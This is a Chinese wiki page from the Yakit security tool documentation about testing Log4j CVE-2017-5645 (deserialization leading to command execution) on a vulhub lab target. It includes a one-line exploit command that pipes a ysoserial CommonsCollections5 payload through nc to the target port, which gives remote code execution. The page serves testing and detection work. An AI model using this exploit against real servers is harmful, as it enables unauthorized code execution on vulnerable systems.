

repository: yaklang/yaklang.github.io · page: Yaklab/wiki/DetectionPlug-in/Log4j/index.html · generator: docusaurus

---
sidebar_position: 28
---
# Log4j插件使用

## 1 CVE-2017-5645 反序列化命令执行漏洞

**插件id：**

Yakit正在努力编写~

**漏洞描述：**

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

**测试过程：**

使用vulhub靶场，在8712端口开启tcp服务

![](/img/products/yakit/Log4j-1.png)

使用ysoserial生成payload，然后直接发送给8712端口

```go
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip port
```

执行docker-compose exec log4j bash进入容器，可见 /tmp/success 已成功创建

![](/img/products/yakit/Log4j-3.png)
